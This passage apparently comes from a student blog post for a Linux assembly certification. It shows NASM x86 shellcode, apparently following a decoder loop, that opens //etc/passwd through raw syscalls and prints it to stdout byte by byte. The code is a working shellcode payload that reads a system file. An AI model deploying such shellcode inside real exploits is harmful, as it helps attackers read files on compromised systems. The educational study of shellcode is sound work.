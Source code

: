 ```nasm
loop decode

xor eax, eax                    ; eax = 0
cdq                             ; edx = 0
mov byte [esp+12], al           ; null terminate string "//etc/passwd"
mov al, 0x5                     ; sys_open
mov ebx, esp                    ; const char *pathname
xor ecx, ecx                    ; int flags
int 0x80

read:

mov ecx, esp                    ; void *buf
push eax                        ; save fd value for next byte read loop
mov ebx, eax                    ; int fd
xor eax, eax                    ; eax = 0
mov dl, 0x1                     ; size_t count = 1, we're reading a single byte at a time
mov al, 0x3                     ; sys_read
int 0x80

cdq                             ; edx = 0
cmp edx, eax                    ; check if we have any bytes left to read
je exit                         ; if not, exit

mov eax, edx                    ; eax = 0
mov ebx, eax                    ; ebx = 0
mov al, 0x4                     ; sys_write
mov bl, 0x1                     ; int fd = 1 (stdout)
mov dl, 0x1                     ; size_t count = 1, we're writing a single byte at a time
int 0x80

pop eax                         ; restore fd value
jmp read                        ; loop to next byte

exit:

mov eax, edx                    ; eax = 0
inc eax                         ; eax = 1, sys_exit
xor ebx, ebx                    ; ebx = 0, int status
int 0x80
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1236

All source files can be found on GitHub at [https://github.com/slemire/slae32](https://github.com/slemire/slae32)